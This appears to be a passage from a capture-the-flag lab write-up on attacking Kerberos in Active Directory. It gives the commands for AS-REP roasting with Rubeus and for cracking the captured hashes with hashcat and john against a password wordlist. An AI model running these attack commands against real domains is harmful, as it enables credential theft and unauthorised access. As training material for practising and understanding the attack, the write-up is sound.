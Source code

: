 Execute this on the target machine. same as kerberoasting.
```cmd
Rubeus.exe asreproast
```

You should get this output
![](/assets/images/thm/kerberos/asreproast.png)

In the task it says to insert a 23 after the kerb5asrep in the hash however you can still retrieve the password without this step.
Now same as the last task crack those hashes!
```bash
hashcat -m 18200 hash.txt Active-Directory-Wordlists/Pass.txt
```

you can also use john
```bash
john --format=krb5asrep --wordlist=Active-Directory-Wordlists/Pass.txt hash.txt
```
